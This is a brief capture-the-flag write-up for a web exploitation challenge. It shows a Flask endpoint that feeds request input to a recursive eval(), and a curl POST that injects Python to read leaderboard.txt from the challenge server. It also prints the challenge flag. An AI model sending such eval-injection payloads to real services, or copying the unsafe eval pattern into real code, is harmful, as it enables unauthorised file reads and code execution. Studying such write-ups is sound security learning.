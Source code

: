 # PLAYING ON THE BACKCOURTS (Web Exploitation)

### Challenge Description:

yadayada playing tennis like pong yadayada someone's cheating yadayada at least the leaderboard is safe!

### Challenge Code Analysis:

```python
@app.route('/get_eval', methods=['POST'])
def get_eval() -> Flask.response_class:
    try:
        data = request.json
        expr = data['expr']
        
        return jsonify(status='success', result=deep_eval(expr))
    
    except Exception as e:
        return jsonify(status='error', reason=str(e))


def deep_eval(expr:str) -> str:
    try:
        nexpr = eval(expr)
    except Exception as e:
        return expr
    
    return deep_eval(nexpr)
```

This function is where the entirety of the challenge resides. Basically, the `eval()` function is being used via the `/get_eval` path.

### Approach:

```bash
curl -X POST https://backcourts.ctf.csaw.io/get_eval -H "Content-Type: application/json" -d "{\"expr\": \"open('leaderboard.txt').read()\"}"
```

### Flag:
`csawctf{5H1774K3_Mu5Hr00M5_1_fuX0R3d_Up_50n_0F_4_81207CH}`
